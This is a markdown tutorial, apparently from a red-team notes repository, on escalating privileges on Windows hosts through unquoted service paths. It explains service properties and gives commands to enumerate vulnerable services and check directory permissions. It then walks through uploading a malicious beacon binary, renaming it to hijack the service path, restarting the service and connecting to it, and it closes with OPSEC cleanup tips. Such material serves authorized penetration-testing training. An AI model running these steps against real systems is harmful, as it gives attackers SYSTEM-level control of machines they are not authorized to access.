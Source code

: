 ### **Host Privilege Escalation**

---

### **Important Service Properties:**

1. **Binary Path**:

   - Path of the executable (.exe) associated with the service.
   - Windows services are typically located in `C:\Windows\System32`.
   - Third-party services are usually found in `C:\Program Files` or `C:\Program Files (x86)`.

2. **Startup Type** (When the service starts):

   - **Automatic**: Starts when the system boots.
   - **Automatic (Delayed Start)**: Starts after a delay following system boot.
   - **Manual**: Starts only when explicitly requested.
   - **Disabled**: The service is disabled.

3. **Service Status** (Current state):

   - **Running**: The service is active.
   - **Stopped**: The service is not running.
   - **StartPending/StopPending**: The service is in the process of starting or stopping.

4. **Log On As** (Execution account):

   - The user account under which the service runs, such as **SYSTEM**, local accounts, or even **Domain Admins**. This makes it a key target for privilege escalation.

5. **Dependencies**:

   - Relationships with other services that depend on this one or that this service requires to function. Manipulating one service may indirectly impact others.

6. **Permissions**:
   - Services have specific permissions that control who can start, stop, or modify them.
   - Sensitive services, like **Windows Defender**, cannot be stopped even by administrators.

### **Precautions (OPSEC):**

- Restore the service configuration once you are done.
- Avoid interrupting critical business services.
- Obtain proper permissions if exploiting these vulnerabilities in an authorized environment.

---

### **Unquoted Service Paths**

### **Conditions for Exploitation:**

1. **Unquoted Path with Spaces**:

   - Example: `C:\Program Files\Vulnerable Services\Service 1.exe`.
   - Windows will attempt to execute the following binaries in order:
     - `C:\Program.exe`
     - `C:\Program Files\Vulnerable.exe`
     - `C:\Program Files\Vulnerable Services\Service.exe`.

2. **Write Permissions**:
   - The attacker must have write permissions on one of the intermediate directories (e.g., `C:\Program Files\Vulnerable Services`).

### **List services and their routes**

Get Service information

```bash
run wmic service get name, pathname
```

```powershell
powershell Get-Service | Format-List
```

### **Steps to Identify and Exploit Vulnerable Services**

### 1. Identify Services with Unquoted Paths and Spaces

Identify Services with Unquoted Paths and Spaces

```powershell
powershell Get-WmiObject Win32_Service | Where-Object { $_.PathName -like "* *" -and $_.PathName -notlike '"*"'}
```

Identify Services Executing as LocalSystem with unquoted Paths and Spaces

```powershell
Get-WmiObject Win32_Service | Where-Object {
    $_.PathName -like "* *" -and
    $_.PathName -notlike '"*"' -and
    $_.StartName -eq "LocalSystem"
} | Select-Object Name, PathName, StartName, State

```

### 2. Check Permissions on a Service Path

```powershell
powershell Get-Acl -Path "<you servive path>" | Format-List
```

Retrieves the access control list (ACL) for the specified path to identify if users have permissions to modify or create files.
Look for entries like `BUILTIN\Users Allow CreateFiles`

### 3. Upload a Malicious Payload

Upload a malicious binary to the directory with write permissions:

```bash
upload C:\Payloads\tcp-local_x64.svc.exe
```

```bash
mv tcp-local_x64.svc.exe Service.exe
```

---

### 4. Restart the Service

Stop and restart the service to execute the malicious binary:

```bash
run sc stop VulnService1

```

```bash
run sc start VulnService1
```

---

### 5. Establish a Connection

Use the `connect` command to link to the generated Beacon:

```bash
run netstat -anp tcp
```

```bash
connect localhost 4444
```

**Recommended Usage:**

- **wmic**: Use it when you quickly need executable paths or service names.
- **Get-Service**: Use it to get a more detailed and expanded view of services, especially if you're looking for information about their state, startup type, or associated user account.

### **Precautions (OPSEC):**

**Restore Original Configuration**:
Remove the malicious binary and restart the service after completing the task:

```bash
    rm Service.exe
```

```bash
    run sc start VulnService1
```

### **Why Use `sc.exe qc` Instead of Just `Get-WmiObject`**

- **`Get-WmiObject`**:

  - Provides basic details such as `PathName`, `StartName`, and service state.
  - Useful for initial filtering of services.

- **`sc.exe qc`**:
  - Offers more detailed information, including:
    - Unquoted paths.
    - The user account running the service (`LocalSystem`).
    - Startup configuration (`Auto`, `Manual`).
    - Critical dependencies.
  - Helps confirm whether a service meets **all conditions** for exploitation.

---

### **Recommended Workflow:**

1. **Use `Get-WmiObject` Query for Initial Filtering:**

   - Filter services with insecure paths and `LocalSystem` as the execution account.

2. **Run `sc.exe qc` for Each Service:**

   - Confirm the following:
     - Unquoted path.
     - Running as `LocalSystem`.
     - Startup configuration that allows stopping/starting the service.

3. **Check Write Permissions with `Get-Acl`:**
   - Only check relevant directories for exploitable permissions.
